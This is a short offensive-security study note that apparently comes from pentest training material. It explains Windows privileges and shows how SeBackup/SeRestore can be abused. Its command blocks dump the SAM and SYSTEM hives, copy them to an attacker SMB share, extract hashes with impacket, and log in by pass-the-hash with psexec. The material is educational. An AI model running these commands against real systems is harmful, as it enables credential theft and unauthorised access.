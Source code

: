 # Dangerous Privileges
Each account has privileges that allow it to perform specific system-related tasks. These tasks can be as  simple as the privilege to shut down the machine up to privileges to bypass some DACL-based access controls.
Each user has a set of assigned privileges that can be checked with the following command in the command prompt when ran as administrator:
```
whoami /priv
```
A complete list of available privileges on Windows system can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants)  From an attacker's view, only those privileges that allow us to escalate in the system are of interest. For a comprehensive list of exploitable privileges refer to the [Priv2Admin](https://github.com/gtworek/Priv2Admin) github project.
Here we shall go over some of the most common privileges.

## SeBackup / SeRestore
The SeBackup and SeRestore privileges allow users to read and write to any file in the system, ignoring any DACL in place. The idea being that this privilege is to allow certain users to perform backups from a system without requiring full administrative privileges. 
With this we can trivialize escalation on the system by using a variety of techniques. One of which consists on copying the SAM and SYSTEM registry hives to extract the local Administrator's passwords hash.
To do this we can use the following commands:
```
reg save hklm\system C:\Path\Tosave\system.hive
reg save hklm\sam C:\Path\Tosave\sam.hive
```
Which will create a couple of files with the registry hives content. We can now copy these files to our attacker machine using [[SMB]] or any other available method. For SMB, we can use [[impacket]]'s `smbserver.py` to start a simple SMB server with a network share in the current directory of our attacking machine.
```sh
mkdir share

python3.9 /opt/impacket/examples/smbserver.py -smb2support -username USER -password PASS public share
```
This will create a share named `public` to the `share` directory, which requires the username and password of our current windows session. After this, we can use the `copy` command on the windows machine to transfer both files to our AttackBox
```
copy C:\Path\Tosave\sam.hive \\AtacckerIP\public\
copy C:\Path\Tosave\system.hive \\AtacckerIP\public\
```
And then use [[impacket]] to retrieve the user's password hashes
```sh
python3.9 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
```
And finally we can use the Administrator or other user's hash to perform a Pass-the-Hash attack with [[impacket]] and gain access to the target machine.
```sh
python3.9 /opt/impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:13a04cdcf3f7ec41264e568127c5ca94 USER@IP
```

